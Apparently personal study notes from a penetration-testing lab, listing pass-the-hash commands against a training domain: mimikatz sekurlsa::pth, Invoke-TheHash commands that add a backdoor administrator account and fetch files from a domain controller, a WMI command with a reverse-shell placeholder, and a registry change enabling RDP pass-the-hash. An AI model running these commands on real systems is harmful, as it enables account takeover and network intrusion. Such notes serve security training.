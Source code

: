 
```cmd-session
mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
```
https://github.com/gentilkiwi
![[Pasted image 20240915152516.png]]

```powershell-session
Import-Module .\Invoke-TheHash.psd1



Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose

Invoke-SMBClient -Domain inlanegreight.htb -Username julio -Hash 64f12cddaa88057e06a81b54e73b949b -Action Get -Source \\DC01\david\david.txt


```
https://github.com/Kevin-Robertson/Invoke-TheHash
![[Pasted image 20240915152921.png]]

```powershell-session
PS c:\tools\Invoke-TheHash> Import-Module .\Invoke-TheHash.psd1
PS c:\tools\Invoke-TheHash> Invoke-WMIExec -Target DC01 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "PUT_REV_SHELL_HERE"
```
![[Pasted image 20240915152940.png]]

Enabling RDP PTH
![[Pasted image 20240915160815.png]]```
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f```

Extra Notes:
![[Pasted image 20240915161157.png]]


